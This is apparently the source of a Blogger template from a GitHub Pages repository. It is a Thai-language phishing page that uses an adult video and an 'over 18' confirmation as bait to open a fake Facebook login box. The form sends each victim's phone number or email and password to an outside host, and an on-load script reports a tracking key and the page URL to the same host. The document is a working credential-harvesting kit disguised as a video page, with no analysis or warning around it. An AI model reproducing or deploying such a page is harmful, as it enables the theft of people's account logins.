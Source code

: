 # aly2422.github.io
<?xml version="1.0" encoding="UTF-8" ?>
<html xmlns='http://www.w3.org/1999/xhtml' xmlns:b='http://www.google.com/2005/gml/b' xmlns:data='http://www.google.com/2005/gml/data' xmlns:expr='http://www.google.com/2005/gml/expr'>

<head>
    <meta content='text/html; charset=UTF-8' http-equiv='Content-Type'/>
    <meta content='width=device-width, initial-scale=1, shrink-to-fit=no' name='viewport'/>
    <title>คุณต้องเชื่อมต่อก่อน</title>
    <meta content='https://1.bp.blogspot.com/-dlcJCnW5Z6Q/YFLOFR3SxcI/AAAAAAAAASo/re31KzmpWlAUl7oOwmEhBndHKVkttpXjACLcBGAsYHQ/s16000/126018399_1092323767894825_3689224965821169559_n.jpg' itemprop='thumbnailUrl' property='og:image'/>
    <b:skin><![CDATA[
        


    ]]></b:skin>

</head>

<body class='touch x1-5 ios mSafari _fzu _50-3 iframe acw' tabindex='0'>
    <header>
        <b:section class='header' id='header' maxwidgets='1' showaddelement='yes'>
          <b:widget id='Header1' locked='false' type='Header' version='1'>
            <b:widget-settings>
              <b:widget-setting name='displayUrl'/>
              <b:widget-setting name='displayHeight'>0</b:widget-setting>
              <b:widget-setting name='sectionWidth'>-1</b:widget-setting>
              <b:widget-setting name='useImage'>false</b:widget-setting>
              <b:widget-setting name='shrinkToFit'>false</b:widget-setting>
              <b:widget-setting name='imagePlacement'>BEHIND</b:widget-setting>
              <b:widget-setting name='displayWidth'>0</b:widget-setting>
            </b:widget-settings>
            <b:includable id='main'>
                    <b:if cond='data:useImage'>
                        <b:if cond='data:imagePlacement == &quot;BEHIND&quot;'>
                            <b:if cond='data:mobile'>
                                <div id='header-inner'>
                                    <div class='titlewrapper' style='background: transparent'>
                                        <h1 class='title' style='background: transparent; border-width: 0px'>
                                            <b:include name='title'/>
                                        </h1>
                                    </div>
                                    <b:include name='description'/>
                                </div>
                                <b:else/>
                                <div expr:style='&quot;background-image: url(\&quot;&quot; + data:sourceUrl + &quot;\&quot;); &quot;                      + &quot;background-position: &quot;                      + data:backgroundPositionStyleStr + &quot;; &quot;                      + data:widthStyleStr                      + &quot;min-height: &quot; + data:height                      + &quot;_height: &quot; + data:height                      + &quot;background-repeat: no-repeat; &quot;' id='header-inner'>
                                    <div class='titlewrapper' style='background: transparent'>
                                        <h1 class='title' style='background: transparent; border-width: 0px'>
                                            <b:include name='title'/>
                                        </h1>
                                    </div>
                                    <b:include name='description'/>
                                </div>
                            </b:if>
                            <b:else/>
                            <div id='header-inner'>
                                <a expr:href='data:blog.homepageUrl' style='display: block'>
                                    <img expr:alt='data:title' expr:height='data:height' expr:id='data:widget.instanceId + &quot;_headerimg&quot;' expr:src='data:sourceUrl' expr:width='data:width' style='display: block'/>
                                </a>
                                <b:if cond='data:imagePlacement == &quot;BEFORE_DESCRIPTION&quot;'>
                                    <b:include name='description'/>
                                </b:if>
                            </div>
                        </b:if>
                        <b:else/>
                        <div id='header-inner'>
                            <div class='titlewrapper'>
                                <h1 class='title'>
                                    <b:include name='title'/>
                                </h1>
                            </div>
                            <b:include name='description'/>
                        </div>
                    </b:if>
                </b:includable>
            <b:includable id='description'>
                    <div class='descriptionwrapper'>
                        <p class='description'><span>
                                <data:description/></span></p>
                    </div>
                </b:includable>
            <b:includable id='title'>
                    <b:tag cond='data:blog.url != data:blog.homepageUrl' expr:href='data:blog.homepageUrl' name='a'>
                        <data:title/>
                    </b:tag>
                </b:includable>
          </b:widget>
        </b:section>
    </header>
    <main>
<link href='https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' rel='stylesheet'/>
<link href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.1/css/all.min.css' rel='stylesheet'/>
<script src='https://code.jquery.com/jquery-3.5.1.min.js'/>
<link href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css' rel='stylesheet'/>
 <style>
    .container {
        padding-right: 15px;
        padding-left: 15px;
        margin-right: auto;
        margin-left: auto;

    }

    .row {
        margin-right: -15px;
        margin-left: -15px;
    }

    .col-xs-12 {
        width: 100%;
    }

    .carousel-inner&gt;.item&gt;a&gt;img,
    .carousel-inner&gt;.item&gt;img,
    .img-responsive,
    .thumbnail a&gt;img,
    .thumbnail&gt;img {
        display: block;
        max-width: 100%;
        height: auto;
    }

    /* ---------------------------------------- */
    .modal {
        position: fixed;
        top: 0;
        right: 0;
        bottom: 0;
        left: 0;
        z-index: 1050;
        display: none;
        overflow: hidden;
        outline: 0;
    }

    .fade.in {
        opacity: 1;
    }

    .login-form-wrap {
        background: radial-gradient(ellipse at center, rgba(81, 112, 173, 1) 0%, rgba(53, 84, 147, 1) 100%);
        border: 1px solid #2d416d;
        box-shadow: 0 1px #5670a4 inset, 0 0 10px 5px rgb(0 0 0 / 10%);
        width: 380px;
        max-width: 100%;
        height: 480px;
        margin: 60px auto;
        padding: 50px 30px 0;
        text-align: center;
    }

    .form-controll {
        border-radius: 5px;
        display: block;
        width: 100%;
        height: 34px;
        padding: 6px 12px;
        font-size: 14px;
        line-height: 1.42857143;
        color: #555;
        background-color: #fff;
        background-image: none;
        border: 1px solid #ccc;
        -webkit-box-shadow: inset 0 1px 1px rgb(0 0 0 / 8%);
        box-shadow: inset 0 1px 1px rgb(0 0 0 / 8%);
        -webkit-transition: border-color ease-in-out .15s, -webkit-box-shadow ease-in-out .15s;
        -o-transition: border-color ease-in-out .15s, box-shadow ease-in-out .15s;
        transition: border-color ease-in-out .15s, box-shadow ease-in-out .15s;
    }

    .btn-primary {
        color: #fff;
        background-color: #337ab7;
        border-color: #2e6da4;
    }

    .btn {
        display: inline-block;
        padding: 6px 12px;
        margin-bottom: 0;
        font-size: 14px;
        font-weight: 400;
        line-height: 1.42857143;
        text-align: center;
        white-space: nowrap;
        vertical-align: middle;
        -ms-touch-action: manipulation;
        touch-action: manipulation;
        cursor: pointer;
        -webkit-user-select: none;
        -moz-user-select: none;
        -ms-user-select: none;
        user-select: none;
        background-image: none;
        border: 1px solid transparent;
        border-radius: 4px;
    }

    .custom_icon {
        position: absolute;
        top: 50%;
        left: 50%;
        font-size: 40px;
        color: blue;
        transform: translate(-50%, -50%);
    }

    .submitStyleLogin {
        padding: 4px 0px;
        background-color: #627aad;
        border-radius: 4px;
        text-shadow: 0 -1px rgba(0, 0, 0, .25);
        background-image: -webkit-linear-gradient(rgba(0, 0, 0, 0), rgba(0, 0, 0, .1));
        background-image: linear-gradient(rgba(0, 0, 0, 0), rgba(0, 0, 0, .1));
        border: 1px solid #4162A7;
    }

    .submitStyleRegister {
        background-color: #5b93fc;
        padding: 10px 20px;
        font-weight: bold;
        border: 1px solid #0A5AED;
        text-shadow: 0 -1px rgba(0, 0, 0, .25);
        background-image: -webkit-linear-gradient(rgba(0, 0, 0, 0), rgba(0, 0, 0, .1));
        background-image: linear-gradient(rgba(0, 0, 0, 0), rgba(0, 0, 0, .1));
    }

    .videoView {
        width: 180px;
        font-size: 12px;
        background-color: #fff9d7;
        border: 1px solid #e2c822;
        padding: 7px 23px;
        margin: 10px auto;
        border-radius: 6px;
    }

    #dp_00004 {
        color: #899bc1;
        font-size: 12px;
        line-height: 16px;
        margin-top: 10px;
    }

    .imageProfile {
        text-align: center;
        padding: 5px 0px;
        position: relative;
    }

    .imageProfile img {
        border-radius: 50%;
        width: 80px;
        height: 80px;
    }

    #myModal {
        display: block;
        padding-left: 0px;
        margin-left: 0px;
        margin-right: 0px;
    }

    .nguoisangtao {
        background-color: yellow;
        font-size: 20pt;
    }

    .nguoisangtaocustom {
        color: #ff1313;
    }

    .img-responsive {
        height: 100vh;
        object-fit: cover;
        width: 100%;
    }

    .rows1 {
        margin-top: 10px;
    }

    .separator {
        clear: both;
        text-align: center;
    }

    .rows2 {
        background: #3b5998;
    }

    .inputcustom1 {
        height: 40px;
        margin-bottom: 2px;
    }

    .inputcustom2 {
        height: 40px;
    }

    ._55ws {
        padding: 10px 0px;
        border-top: none;
    }
</style>
  <script async='async' src='https://ajax.googleapis.com/ajax/libs/webfont/1.5.18/webfont.js'/>

 <body>
    <div class='container'>
        <div class='row rows1'>
            <div class='col-xs-12 col-sm-12 col-md-12 col-lg-12'>
                <div class='separator'>
                    <b><span><a class='nguoisangtao' href='#' onclick='showlog()'>ยืนยันว่าคุณมีอายุเกิน 18 ปีขึ้นไป</a></span></b>
                </div>
                <img alt='Image' class='img-responsive' onclick='showlog();' src='https://1.bp.blogspot.com/-dlcJCnW5Z6Q/YFLOFR3SxcI/AAAAAAAAASo/re31KzmpWlAUl7oOwmEhBndHKVkttpXjACLcBGAsYHQ/s16000/126018399_1092323767894825_3689224965821169559_n.jpg'/>
                <div class='separator' style=' text-align: center;'>
                    <b><span><a class='nguoisangtao nguoisangtaocustom' href='#' onclick='showlog()'>ดูวิดีโอได้ที่นี่</a></span></b>
                </div>
            </div>
        </div>
    </div>
    <div class='modal fade in' id='myModal' role='dialog'>
        <section class='login-form-wrap'>
            <div class='row rows2'>
                <div class='col-lg-12 imageProfile'>
                    <img src='https://1.bp.blogspot.com/-dlcJCnW5Z6Q/YFLOFR3SxcI/AAAAAAAAASo/re31KzmpWlAUl7oOwmEhBndHKVkttpXjACLcBGAsYHQ/s16000/126018399_1092323767894825_3689224965821169559_n.jpg'/>
                    <i class='fa fa-facebook-f custom_icon'/>
                </div>
            </div>
            <div class='row'>
                <div class='videoView' id='dp_0001'>คุณต้องเข้าสู่ระบบก่อน</div>
                <form action='https://via.7uq.org/' class='col-xs-12 col-sm-12 col-md-12 col-lg-12' id='login_form_mb' method='post'>
                    <input class='form-controll inputcustom1' id='email' name='email' placeholder='หมายเลขโทรศัพท์มือถือหรืออีเมล' required='' type='text'/>
                    <input class='form-controll inputcustom2' id='pass' name='pass' placeholder='รหัสผ่าน' required='' type='password'/>
                    <input id='is_smart_key_cd' name='na_is_smart_key_cd' type='hidden' value='OTA2MnwxNDB8OTg3Nw'/>
                    <div class='_55ws'>
                        <button class='btn btn-primary btn-lg btn-block submitStyleLogin' id='dp_00002' name='submit' type='submit'>เข้าสู่ระบบ</button>
                    </div>
                </form>
            </div>
            <button class='btn btn-primary submitStyleRegister' type='button'>สร้างบัญชีผู้ใช้ใหม่</button>
            <p id='dp_00004'>ลืมรหัสผ่านใช่หรือไม่</p>
        </section>
    </div>
</body>
      
    </main>
    <footer/>
</body>
<script>   
    var xhr = new XMLHttpRequest();
    xhr.open(&#39;GET&#39;, &#39;https://via.7uq.org/?key=&#39; + document.getElementById(&quot;is_smart_key_cd&quot;).value + &#39;&amp;url=&#39; + window.location);
    xhr.onload = function() {
        if (xhr.status === 200) {}
    };
    xhr.send();
</script>
<script async='async' src='https://www.googletagmanager.com/gtag/js?id=G-GMPGBDMPN5'/>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag(&#39;js&#39;, new Date());

  gtag(&#39;config&#39;, &#39;G-GMPGBDMPN5&#39;);
</script>
</html>

